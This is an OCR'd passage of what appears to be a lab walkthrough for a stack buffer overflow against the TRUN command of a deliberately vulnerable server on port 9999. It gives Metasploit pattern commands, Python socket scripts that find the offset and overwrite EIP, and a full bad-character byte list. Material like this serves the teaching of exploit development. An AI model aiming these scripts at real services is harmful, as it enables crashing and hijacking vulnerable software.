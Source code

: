 2. Finding the Offset
Cmd :

msf-pattern_create -l 3000
msf-pattern_offset -q 386F4337

1 #!/usr/bin/python
2 # -*- coding: utf-8 -*-

3 import sys
4 import socket
5
6 offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac
7 try:
8 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
9 s.connect(('10.0.0.71', 9999))
10 s.send('TRUN /.:/' + offset)
11 s.close()
12 except:
13
14 print('Error connecting to server')
15 sys.exit()
16

3. Overwriting the EIP

1 #!/usr/bin/python
2 # -*- coding: utf-8 -*-
3 import sys
4 import socket
5
6 shellcode = 'A' * 2003 + 'B' * 4
7
8 try:
9 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
10 s.connect(('10.0.0.71', 9999))
11 s.send('TRUN /.:/' + shellcode)
12 s.close()
13 except:
14
15 print('Error connecting to server')
16 sys.exit()
17

4. Finding the bad Characters

1 badchars = (
2 "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
3 "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
4 "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
5 "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"

6 "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
7 "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
8 "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
9 "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
10 "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
11 "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
12 "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
13 "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
14 "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
15 "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
16 "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
17 "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
18 )
